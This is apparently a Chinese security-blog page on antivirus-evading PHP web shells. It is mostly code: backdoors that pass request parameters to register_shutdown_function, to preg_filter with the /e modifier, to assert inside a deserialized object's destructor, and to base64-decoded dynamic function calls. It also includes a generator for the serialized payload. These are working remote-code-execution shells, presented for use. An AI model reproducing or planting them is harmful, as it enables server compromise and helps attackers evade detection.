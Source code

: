 ```php
<?php 
$fun = $_REQUEST['fun'];register_shutdown_function($fun,$_REQUEST['req']);
?>
```

>register_shutdown_function该函数是来注册一个会在PHP中止时执行的函数
>void register_shutdown_function ( callable $callback [, mixed $parameter [, mixed $... ]] ) 
>注册一个 callback ，它会在脚本执行完成或者 exit() 后被调用。

![img](https://klionsec.github.io/img/register_shutdown_function%20spec.png)

```php
<?php echo preg_filter('|.*|e',$_REQUEST['req'],'')?>
```

![img](https://klionsec.github.io/img/preg_filter%20shell.png)

利用序列化与反序列化免杀,简单来讲原理类似反序列化漏洞,因为成员变量可控,在析构的时造成的代码执行:

```php
<?php
class shell{
    public $code="tmpdata";
    function __destruct()
    {
       assert($this->code);
    }
}
$ser = $_GET['serdata'];
unserialize($ser);
```



序列化后的数据

```php
<?php
class shell{
    public $code="phpinfo();";
}
$reload = new shell;
$res = serialize($reload);
echo $res;
```



![img](https://klionsec.github.io/img/serialize.png)

编码配合动态函数:

```php
<?php 
$fun = base64_decode($_POST[fun]);
$code = base64_decode($_POST[code]);
$arr = array("a"=>$fun);
$a = "${ $arr['a']($code)}";
?>
```
